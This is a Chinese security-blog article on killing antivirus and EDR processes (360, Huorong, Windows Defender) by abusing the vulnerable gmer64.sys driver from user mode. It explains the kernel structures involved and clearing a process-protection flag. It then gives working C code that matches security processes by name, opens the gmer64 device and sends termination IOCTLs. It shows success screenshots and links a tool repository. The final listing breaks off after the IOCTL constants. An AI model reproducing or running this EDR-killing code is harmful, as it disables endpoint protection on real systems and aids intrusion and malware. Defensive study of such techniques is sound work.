# 利用内核驱动实现安全软件进程终止技术研究-先知社区

> **来源**: https://xz.aliyun.com/news/18785  
> **文章ID**: 18785

---

## 前言

Hello World-drivers参考：

<https://learn.microsoft.com/zh-cn/windows-hardware/drivers/gettingstarted/writing-a-very-small-kmdf--driver>

项目创建好了编译错误可能是没有添加链接



链接器是编译流程中的关键工具，负责将编译器生成的目标文件（`.obj`）、库文件（`.lib`）等组合成最终可执行文件（`.exe`）、动态链接库（`.dll`）或其他可部署的二进制文件。它解决了代码模块化开发中的 “符号引用” 和 “地址分配” 问题，是从源代码到可执行程序的最后一步关键处理。

在其他选项添加/integritycheck 另外需要在windows开启测试模式bcdedit /set testsigning on（在虚拟机里测试） 把编译好的.sys移动到C:WindowsSystem32drivers sc创建服务然后sc启动就行了 上一篇是阻止kill，这篇来killav

## NY-TASKKILL

本篇文章通过ZwTerminateProcess()来结束360，火绒，defender，利用驱动gmer64.sys

​





CLIENT\_ID 结构体：进程 / 线程唯一标识  
定义：typedef struct \_CLIENT\_ID { HANDLE UniqueProcess; HANDLE UniqueThread; } CLIENT\_ID, \*PCLIENT\_ID;  
UniqueProcess：目标进程的 PID（句柄形式，内核态中直接作为标识符使用）  
UniqueThread：目标线程的 TID（设为 0 表示不指定特定线程，仅操作进程）  
作用：内核中用于唯一标识一个 "进程 + 线程" 组合，是ZwOpenProcess等函数定位目标进程的核心参数。  
与用户态的区别：用户态通常用DWORD类型表示 PID，而内核态通过HANDLE形式操作，隐含了对象引用的语义。

2. OBJECT\_ATTRIBUTES 结构体：对象安全描述  
定义：typedef struct \_OBJECT\_ATTRIBUTES { ULONG Length; HANDLE RootDirectory; PUNICODE\_STRING ObjectName; ULONG Attributes; PSECURITY\_DESCRIPTOR SecurityDescriptor; PSECURITY\_QUALITY\_OF\_SERVICE SecurityQualityOfService; } OBJECT\_ATTRIBUTES, \*POBJECT\_ATTRIBUTES;  
关键参数：Attributes = OBJ\_KERNEL\_HANDLE 表示句柄仅在 kernel mode 可见，避免用户态恶意滥用；SecurityDescriptor 设为NULL表示使用默认安全设置。  
作用：描述内核对象（如进程、文件）的安全属性和访问控制规则，是内核对象管理器创建 / 打开对象的必要参数。

进程上下文切换：KeStackAttachProcess 的底层意义

内核线程与进程地址空间  
Windows 内核中，线程是调度的基本单位，而进程是资源（地址空间、句柄表等）的容器。每个线程默认运行在所属进程的地址空间中。  
当内核线程需要访问另一个进程的地址空间（如读取目标进程的内存、修改进程属性）时，必须切换上下文，否则会因地址空间隔离导致访问失败（甚至蓝屏）。

KeStackAttachProcess 的工作原理  
功能：将当前线程 "附加" 到目标进程的地址空间，使线程暂时拥有访问该进程内存的权限。  
实现细节：保存当前线程的上下文（如栈指针、页表寄存器）到KAPC\_STATE结构体中；  
切换线程的页表寄存器（CR3）指向目标进程的页目录，实现地址空间切换；  
操作完成后必须调用KeUnstackDetachProcess恢复上下文，否则会导致线程永久运行在错误的地址空间中。  
使用场景：内核驱动需要跨进程访问资源时（如进程注入、内存读写、属性修改），是安全操作的前提。  
进程操作的权限控制与内核 API 调用链

ZwOpenProcess：进程句柄获取的权限校验  
权限参数：PROCESS\_QUERY\_INFORMATION 允许查询进程基本信息（如状态、优先级），但终止进程需要PROCESS\_TERMINATE权限。代码中若仅用PROCESS\_QUERY\_INFORMATION，实际终止时可能失败，需补充权限掩码。  
内核态特权：驱动运行在 ring 0 级，默认拥有高于用户态的权限，但仍需通过ZwOpenProcess的权限检查（内核也会校验操作是否符合安全策略）。

​

ObReferenceObjectByHandle：句柄到内核对象的转换  
作用：将用户态 / 内核态句柄（HANDLE）转换为内核对象指针（PEPROCESS），允许直接操作进程对象的内部属性。  
引用计数机制：内核对象通过引用计数管理生命周期，ObReferenceObjectByHandle会增加计数（防止对象被意外释放），必须通过ObfDereferenceObject减少计数，否则会导致内存泄漏。

​

进程标志修改：pEprocess->Flags &= ~0x2000u  
PEPROCESS 结构：内核中描述进程的核心结构体，包含进程状态、优先级、安全属性等关键信息。  
标志位0x2000的含义：根据 Windows 内核逆向经验，该位可能与 "进程保护" 相关（如PS\_PROTECTED\_PROCESS的某个子标志），清除该位可解除进程的特殊保护状态，使ZwTerminateProcess能够成功执行。

​

### 识别核心逻辑（`IsInEdrList`函数）

```
BOOL IsInEdrList(const WCHAR* processName) {
    if (!processName) return FALSE;

    // 将进程名转为小写，避免大小写匹配问题
    WCHAR lowerProcessName[MAX_PATH];
    wcscpy_s(lowerProcessName, sizeof(lowerProcessName) / sizeof(WCHAR), processName);
    _wcslwr_s(lowerProcessName, sizeof(lowerProcessName) / sizeof(WCHAR));

    // 遍历内置的EDR进程列表，判断是否匹配
    for (size_t i = 0; i < EDR_LIST_SIZE; i++) {
        // 将ANSI格式的EDR关键词转为宽字符（适应Windows进程名格式）
        WCHAR wideEdrName[MAX_PATH];
        MultiByteToWideChar(CP_ACP, 0, edrList[i], -1, wideEdrName, MAX_PATH);
        // 检查进程名是否包含EDR关键词（如"MsMpEng.exe"包含"Defender"）
        if (wcsstr(lowerProcessName, wideEdrName) != NULL) {
            return TRUE;
        }
    }
    return FALSE;
}
```

通过内置的 EDR 进程关键词列表，识别系统中运行的安全防护进程，为后续终止操作提供目标。

### 驱动初始化与权限滥用（`InitializeDriver`函数）

```
BOOL InitializeDriver(void) {
    // 尝试连接多个可能的驱动设备路径（适配不同环境）
    const char* deviceNames[] = {
        "\\.\gmer",
        "\\.\gmer64",
        "\\.\Gmer64",
        "\\.\GMER64"
    };
    
    // 遍历设备路径，尝试打开驱动设备
    for (int i = 0; i < numDevices; i++) {
        g_hDevice = CreateFileA(
            deviceNames[i],
            GENERIC_READ | GENERIC_WRITE,
            FILE_SHARE_READ | FILE_SHARE_WRITE,
            NULL,
            OPEN_EXISTING,
            FILE_ATTRIBUTE_NORMAL,
            NULL
        );
        if (g_hDevice != INVALID_HANDLE_VALUE) {
            LogMessage(LOG_INFO, "Connected to device: %s", deviceNames[i]);
            break;
        }
    }

    // 若驱动连接失败，直接返回错误
    if (g_hDevice == INVALID_HANDLE_VALUE) {
        DWORD error = GetLastError();
        LogMessage(LOG_ERROR, "Failed to open device driver, error code: 0x%08X", error);
        return FALSE;
    }

    // 尝试多个初始化指令（IOCTL），确保驱动能正常响应
    DWORD ioctlCodes[] = {
        INITIALIZE_IOCTL_CODE,
        INITIALIZE_IOCTL_CODE_ALT1,
        INITIALIZE_IOCTL_CODE_ALT2,
        INITIALIZE_IOCTL_CODE_ALT3
    };
    
    for (int i = 0; i < numCodes; i++) {
        DWORD input = 0;
        DWORD output[2] = { 0 };
        DWORD bytesReturned = 0;

        // 通过DeviceIoControl向驱动发送初始化指令
        BOOL result = DeviceIoControl(
            g_hDevice,
            ioctlCodes[i],
            &input,
            sizeof(DWORD),
            output,
            sizeof(output),
            &bytesReturned,
            NULL
        );

        if (result) {
            LogMessage(LOG_SUCCESS, "Driver initialized with IOCTL: 0x%08X", ioctlCodes[i]);
            return TRUE;
        }
    }

    // 所有指令失败则初始化失败
    LogMessage(LOG_ERROR, "All IOCTL codes failed. Driver not responding.");
    CloseHandle(g_hDevice);
    g_hDevice = INVALID_HANDLE_VALUE;
    return FALSE;
}
```

### 进程终止核心逻辑（`TerminateProcessByPid`函数）

```
BOOL TerminateProcessByPid(DWORD pid) {
    if (g_hDevice == INVALID_HANDLE_VALUE) {
        LogMessage(LOG_ERROR, "Device not initialized");
        return FALSE;
    }

    // 尝试多个进程终止指令（IOCTL），适配不同驱动版本
    DWORD ioctlCodes[] = {
        TERMINATE_PROCESS_IOCTL_CODE,
        TERMINATE_PROCESS_IOCTL_CODE_ALT1,
        TERMINATE_PROCESS_IOCTL_CODE_ALT2,
        TERMINATE_PROCESS_IOCTL_CODE_ALT3
    };
    
    for (int i = 0; i < numCodes; i++) {
        LogMessage(LOG_INFO, "Trying terminate IOCTL code: 0x%08X", ioctlCodes[i]);
        
        // 向驱动发送包含目标PID的终止指令
        BOOL result = DeviceIoControl(
            g_hDevice,
            ioctlCodes[i],
            &pid,  // 输入参数：目标进程的PID
            sizeof(DWORD),
            NULL,
            0,
            &bytesReturned,
            NULL
        );

        if (result) {
            LogMessage(LOG_SUCCESS, "Process terminated (PID: %lu)", pid);
            return TRUE;
        } else {
            DWORD error = GetLastError();
            LogMessage(LOG_WARNING, "IOCTL failed with error: 0x%08X", error);
        }
    }

    LogMessage(LOG_ERROR, "All terminate IOCTL codes failed for PID: %lu", pid);
    return FALSE;
}
```

不具体分析这个驱动了，网上已经有这样的文章来，直接开始利用，代码在下面





正常无法结束任务



### 火绒





​

### 360









### Defender



驱动在

<https://github.com/Trentooooo/NY-TskKILL>

```
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <tlhelp32.h>
#include <psapi.h>
#include <winternl.h>
#include <winsvc.h>

#pragma comment(lib, "advapi32.lib")
#pragma comment(lib, "kernel32.lib")
#pragma comment(lib, "psapi.lib")
#pragma comment(lib, "ntdll.lib")

// Gmer64.sys Device IO Control Codes
#define INITIALIZE_IOCTL_CODE     0x9876C008
#define TERMINATE_PROCESS_IOCTL_CODE 0x9876C098

// Alternative IOCTL codes to try
